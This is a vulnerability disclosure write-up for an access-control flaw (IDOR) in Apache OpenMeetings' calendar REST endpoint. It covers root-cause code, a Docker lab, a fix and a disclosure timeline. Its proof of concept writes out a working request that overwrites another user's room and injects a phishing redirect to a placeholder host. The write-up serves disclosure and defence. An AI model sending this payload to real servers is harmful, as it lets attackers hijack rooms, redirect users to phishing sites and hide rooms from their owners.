









## TL;DR

| Field | Detail |
|---|---|
| **CVE** | **CVE-2026-134747** |
| **Product** | Apache OpenMeetings |
| **Affected Versions** | OpenMeetings 4.0.0 – 9.1.0 · Docker 5.1.0 – 9.1.0 |
| **Fixed Version** | **9.2.0** |
| **Vulnerability** | IDOR / Broken Access Control in `CalendarWebService.save()` |
| **CWE** | CWE-639 · CWE-284 |
| **Severity** | **Critical** (vendor rating) |
| **Impact** | Any authenticated user can overwrite any Room (name, redirect URL, moderation, files) |
| **Tracker** | [OPENMEETINGS-2835](https://issues.apache.org/jira/browse/OPENMEETINGS-2835) |

---

## 1. Overview

[Apache OpenMeetings](https://openmeetings.apache.org/) is an open-source video-conferencing and collaboration platform providing REST APIs for managing calendars and rooms.

I discovered that the `CalendarWebService.save()` endpoint has a **Broken Access Control** flaw (IDOR) allowing **any authenticated user** — regardless of role — to overwrite the properties of **any Room** in the system by its numeric ID. This includes the room name, comments, redirect URL, moderation settings, and whiteboard files.

The root cause: a client-controlled `appointment` flag in the JSON payload determines whether the server reloads the Room entity from the database or keeps the attacker's overwrites. By setting `"appointment": true` on a payload referencing an existing Room ID, the attacker bypasses the reload protection entirely.

---

## 2. Affected Versions

- Apache OpenMeetings **4.0.0** through **9.1.0** (confirmed by vendor)
- Apache OpenMeetings Docker **5.1.0** through **9.1.0**
- PoC tested on 9.1.0, master branch commit `f2abd5688b2041b047caa88e5abf77805d329ea4`
- **Fixed in version 9.2.0** — users should upgrade immediately

---

## 3. Root Cause Analysis

### 3.1 The Vulnerable Code Path

**Endpoint:** `POST /openmeetings/services/calendar/`  
**Method:** `CalendarWebService.save()` — `CalendarWebService.java`, lines 303–339

When saving a calendar appointment, the user submits an `AppointmentDTO` containing a nested `RoomDTO`. Here is the full attack data flow:

**Step 1 — DTO Parsing (Source)**

`RoomDTO.get()` at `RoomDTO.java:298` reads the Room ID and `appointment` flag directly from client JSON:

```java
r.id = optLong(o, "id");              // attacker controls which Room
r.appointment = o.optBoolean("appointment", false);  // attacker controls the bypass flag
```

**Step 2 — Authorization Gate (No Room Check)**

`CalendarWebService.save()` at line 310:

```java
if (!AuthLevelUtil.hasUserLevel(u.getRights())) return false;  // just needs LOGIN right
if (AuthLevelUtil.hasWebServiceLevel(...) || appointment.getId() == null)
    return true;  // new appointment (id==null) → allowed unconditionally
```

For a **new appointment** (`id == null`), the gate returns `true` without ever checking which Room is referenced.

**Step 3 — Room Mapper (Overwrite)**

`RoomMapper.get()` at `RoomMapper.java:62`:

```java
Room r = dto.getId() == null ? new Room() : roomDao.get(dto.getId());
r.setName(dto.getName());
r.setComment(dto.getComment());
r.setRedirectURL(dto.getRedirectUrl());
r.setAppointment(dto.isAppointment());
r.setModerated(dto.isModerated());
r.setFiles(get(dto.getId(), dto.getFiles()));
// ... every column overwritten from attacker input
```

The mapper loads the **victim's Room** by the attacker-supplied ID, then overwrites **every field** from the attacker's DTO.

**Step 4 — The Bypass (Critical)**

Back in `save()` at `CalendarWebService.java:330`:

```java
if (a.getRoom().getId() != null) {
    if (a.getRoom().isAppointment()) {
        // ← appointment=true from client DTO
        // → SKIP reload → attacker's overwrites PERSIST
        a.getRoom().setIspublic(false);
    } else {
        // ← appointment=false → RELOAD from DB → protection works
        a.setRoom(roomDao.get(a.getRoom().getId()));
    }
}
```

The `else` branch is a **deliberate guard**: it reloads the Room from the database, discarding client-side modifications. But the `if` branch — triggered by `appointment=true` — **skips the reload**, keeping the attacker's overwrites intact.

**Step 5 — Persistence (Sink)**

`AppointmentDao.update()` at line 99 calls `roomDao.update()`, which executes `em.merge(r)` — persisting all attacker-controlled columns to the victim's Room **without any ownership check**.

### 3.2 Why This Is a Bug, Not Intended Design

The Wicket web UI **never** produces the state that triggers the bypass:

- Creating a new appointment → `Room.id == null`, `appointment=true` → a **brand new Room** is created
- Referencing an existing Room → `appointment=false` → the **reload guard fires**, protecting the Room

The REST API allows a client to assert `appointment=true` on an **existing Room ID** — a state the UI never creates — which defeats the reload protection.

---

## 4. Lab Setup

```bash
# Docker (quickest way)
docker run -p 5443:5443 -p 5080:5080 apache/openmeetings:latest

# Access at http://localhost:5080/openmeetings
# Create admin account during first-run wizard
# Create a second user (attacker) via Admin > Users
# Create private rooms for both attacker and victim
```

---

## 5. Proof of Concept

### Step 1 — Authenticate as Attacker

Obtain a session ID (SID) via the REST login endpoint using Burp Suite:

```
POST /openmeetings/services/user/login HTTP/1.1
Host: localhost:5080
Content-Type: application/x-www-form-urlencoded

user=attacker&pass=Zx9q!mK2Tv#w
```

The server returns a JSON response with the session ID:

```json
{
  "serviceResult": {
    "message": "ba22bdba-ca70-43e2-a9aa-57b1187b4f92",
    "type": "SUCCESS"
  }
}
```


*Figure 1: Attacker authenticates via REST API and obtains a valid SID (Burp Suite)*

### Step 2 — Room State Before Attack

Before executing the attack, we confirm the initial state:

- **Attacker's Room #8** — "Attacker Private Room" (comment: "thuộc attacker")
- **Victim's Room #9** — "Victim Private Room" (comment: "thuộc victim")
- Attacker's calendar is empty


*Figure 2: Attacker's private rooms — Room #8 "Attacker Private Room"*


*Figure 3: Attacker's calendar — empty, November 2026*


*Figure 4: Victim's private rooms — Room #9 "Victim Private Room" (the target)*

### Step 3 — Send the IDOR Payload

Using Burp Suite Repeater, send a `POST /openmeetings/services/calendar/` request with a **new appointment** (`id=null`) containing the **victim's Room ID** and `appointment: true`:

```
POST /openmeetings/services/calendar/?sid=ba22bdba-ca70-43e2-a9aa-57b1187b4f92 HTTP/1.1
Host: localhost:5080
Content-Type: application/x-www-form-urlencoded

appointment={"title":"Team sync",
  "start":"2026-11-26T01:00:00",
  "end":"2026-11-26T23:00:00",
  "reminder":"NONE",
  "room":{
    "id":9,                              // ← victim's Room ID
    "type":"CONFERENCE",
    "appointment":true,                  // ← bypass the reload guard
    "name":"PWNED BY ATTACKER",          // ← overwrite room name
    "redirectUrl":"https://evil.example/phish"  // ← inject phishing URL
  }
}
```

**Key:** The combination of `room.id = 9` (existing room) + `room.appointment = true` (bypass flag) is what defeats the reload protection at line 330.

The server responds **200 OK** with the saved appointment, confirming Room #9 has been overwritten:


*Figure 5: Burp Suite Repeater — IDOR payload (left) and server response (right). Response shows Room #9 with `name: "PWNED BY ATTACKER"` and `redirectUrl: "https://evil.example/phish"`*

### Step 4 — Verify the Impact

**Victim's view — Room disappeared:**

After the attack, the victim's private room list is now **empty**. Room #9 was converted to `appointment=true` + `isPublic=false`, which hides it from the normal room listing.


*Figure 6: Victim's private rooms after attack — Room #9 has completely disappeared*

**Admin panel — Room #9 overwritten:**

Checking `Administration > Rooms` confirms Room #9 has been fully hijacked:


*Figure 7: Admin room list — Room #9 renamed to "PWNED BY ATTACKER" (isPublic=false), Exit URL set to `https://evil.example/phish`*


*Figure 8: Admin panel full view — Room #9 details showing overwritten name, Exit URL highlighted with `https://evil.example/phish`*

**Calendar — Malicious appointments created:**


*Figure 9: Calendar showing "Team sync" appointments created during the IDOR attack*

---

## 6. Impact

An authenticated user with only the default LOGIN/ROOM/DASHBOARD rights can target **any Room** by its numeric ID and:

| Impact | Description | Severity |
|---|---|---|
| **Phishing / Open Redirect** | Set `redirectURL` — every user entering the Room is redirected to attacker's URL | High |
| **Room Defacement** | Overwrite name and comment fields | Medium |
| **Moderation Takeover** | Toggle moderation / waitForModerator / allowRecording | Medium |
| **Denial of Service** | Force `isPublic=false` + `appointment=true`, hiding the Room from all regular users | High |
| **Data Loss** | Delete whiteboard file attachments via the files array | High |

The attacker does **not** need to know the victim's credentials or be a member of the targeted Room. Only the numeric Room ID is required, which can be enumerated.

---

## 7. CVSS Score

My initial estimate was CVSS 3.1 **7.1 High** (`AV:N/AC:L/PR:L/UI:N/S:U/C:N/I:H/A:L`), but Apache rated this as **Critical** severity — likely due to the wide range of affected versions (4.0.0–9.1.0) and the ability for any authenticated user to fully compromise any room in the system.

| Metric | Value | Rationale |
|---|---|---|
| Attack Vector | Network | REST API, remotely exploitable |
| Attack Complexity | Low | No special conditions |
| Privileges Required | Low | Any authenticated user |
| User Interaction | None | No victim interaction needed |
| Scope | Unchanged | Stays within OpenMeetings |
| Confidentiality | None | No data disclosure |
| Integrity | High | Full overwrite of any Room entity |
| Availability | Low | Room hiding / file deletion |

---

## 8. Recommended Fix

**1. Never trust client-supplied flags for access control decisions.**  
The `appointment` boolean at line 330 should be read from the database, not from the client DTO.

**2. Always reload the Room entity** when the DTO references an existing Room ID:

```java
// FIX: always reload for existing Room IDs
if (a.getRoom().getId() != null) {
    a.setRoom(roomDao.get(a.getRoom().getId()));
}
```

**3. Add ownership/permission checks** before persisting modifications to any Room referenced by an appointment.

**4. Audit other DTO→entity mapper paths** (e.g., `RoomMapper.get()`) for the same pattern of "load by client ID, overwrite all fields, persist without authorization check."

---

## 9. Disclosure Timeline

| Date | Event |
|---|---|
| 2026-11-21 | Vulnerability discovered and reported to Apache Security Team (`security@apache.org`) |
| 2026-11-21 | Full source-level analysis sent with code references and data flow |
| 2026-11-25 | PoC reproduced on local lab (OpenMeetings 9.1.0 on Docker, `localhost:5080`) |
| 2026-11-26 | Vendor acknowledged — rated as **Critical** |
| 2026-11-26 | **CVE-2026-134747** assigned (tracked as OPENMEETINGS-2835) |
| 2026-11-26 | Fix released in Apache OpenMeetings **9.2.0** |

---

## 10. References

- [Apache OpenMeetings](https://openmeetings.apache.org/)
- [CWE-639: Authorization Bypass Through User-Controlled Key](https://cwe.mitre.org/data/definitions/639.html)
- [CWE-284: Improper Access Control](https://cwe.mitre.org/data/definitions/284.html)
- [OWASP Top 10 — A01:2021 Broken Access Control](https://owasp.org/Top10/A01_2021-Broken_Access_Control/)
- [CVE-2026-134747 — CVE Record](https://www.cve.org/CVERecord?id=CVE-2026-134747)
- [Fix Commit on GitHub](https://github.com/apache/openmeetings/commit/1437f9c1151ac6227ca41790f58c31d2c9ba846b)
